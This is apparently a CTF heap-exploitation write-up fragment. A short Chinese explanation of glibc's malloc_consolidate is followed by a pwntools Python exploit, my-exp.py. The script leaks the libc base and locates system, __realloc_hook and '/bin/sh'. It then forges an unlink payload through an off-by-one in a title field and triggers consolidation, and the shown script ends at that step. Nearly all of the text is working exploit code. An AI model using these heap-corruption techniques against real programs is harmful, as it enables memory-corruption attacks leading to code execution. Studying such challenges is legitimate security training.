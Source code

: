 >malloc_consolidate
该函数会将fastbin中的所有chunk整合到unsort bin中，并且在从fastbin中摘下chunk时会检查相邻的堆块是否为free状态，若为free状态则将触发堆融合。本题采用malloc大于top chunk的size触发malloc_consolidate。

my-exp.py
```
from pwn import *
local = 1

if local:
    p = remote('0' , 1234)
    libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
else:
    print 'time is up'

def change_title(title):
    p.recvuntil('--->>\n')
    p.sendline('1')
    p.recvuntil('title:')
    p.send(title)                   #off_by_one

def change_content(size , content):
    p.recvuntil('--->>')
    p.sendline('2')
    p.recvuntil('256):')
    p.sendline(str(size))
    p.recvuntil('content:')
    p.sendline(content)

def change_comment(comment):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('comment:')
    p.sendline(comment)

def show():
    p.recvuntil('--->>')
    p.sendline('4')
    p.recvuntil('is:')
    return p.recvuntil('\n')[:-1]

#step1 leak libc_base
libc.address = u64(show().ljust(8 , '\x00')) - 0x3c4b78
success('libc_base => ' + hex(libc.address))

system_addr = libc.symbols['system']
info('system_addr => ' + hex(system_addr))
realloc_hook = libc.symbols['__realloc_hook']
info('realloc_hook => ' + hex(realloc_hook))
binsh_addr = libc.search('/bin/sh\x00').next()
info('binsh_addr => ' + hex(binsh_addr))

#step2 make unlink
content = 0x602070
payload = p64(0x30) + p64(0x20) + p64(content - 0x18) + p64(content - 0x10) + p64(0x20) + '\x40'
change_content(0x78 , 0x38 * 'A' + p64(0x41))
change_title(payload)

#step3 free content to fastbin
change_content(0x100 , '')

#step4 trigger malloc_consolidate to unlink
change_content(0x20000 , '')

```